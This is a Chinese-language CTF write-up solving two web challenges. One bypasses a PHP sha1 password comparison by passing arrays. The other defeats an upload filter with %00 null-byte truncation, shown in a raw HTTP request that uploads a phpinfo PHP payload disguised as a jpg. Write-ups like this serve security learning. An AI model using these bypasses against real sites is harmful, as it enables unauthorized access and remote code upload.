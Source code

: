 
<br>

### FALSE
```php
if (isset($_GET['name']) and isset($_GET['password'])) {
    if ($_GET['name'] == $_GET['password'])
        echo '<p>Your password can not be your name!</p>';
    else if (sha1($_GET['name']) === sha1($_GET['password']))
      die('Flag: '.$flag);
    else
        echo '<p>Invalid password.</p>';
}
else{
	echo '<p>Login first!</p>';
```
传入参数`name[]=1&password[]=2`，利用了sha1()传入数组会返回NULL，所以NULL==NULL，成立。
再是既然传入了数组，数组和数组进行比较时，需要KEY对应的VALUE相等，才会相同。1和2不相同，所以返回FALSE。
得到flag。

<br>

### 上传绕过
观察了一下POST的数据包，发现有登录目录，所以先尝试了一下目录截断的绕过
发现成功，其实就是在/uploads/后面加上%00(可以先输入一个空格，在BP的HEX界面中找到这个空格改为00即可)
当系统去验证文件名是否合法时，会取php.jpg去验证，当真实保存在本地的时候,%00会截断最后保存下来是php.php

不过这题目返回的内容好像有问题，其实你传一个正常文件和改了存储路径请求包，返回的存储路径也是/uploads/xxx.php
```http
POST /web/upload/upload.php HTTP/1.1
Host: ctf5.shiyanbar.com
Referer: http://ctf5.shiyanbar.com/web/upload/
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------255481258587
Content-Length: 402

-----------------------------255481258587
Content-Disposition: form-data; name="dir"

/uploads/php.php这里利用%00截断
-----------------------------255481258587
Content-Disposition: form-data; name="file"; filename="php.jpg"
Content-Type: image/jpeg

<?php phpinfo() ?>
-----------------------------255481258587
Content-Disposition: form-data; name="submit"

Submit
-----------------------------255481258587--
```
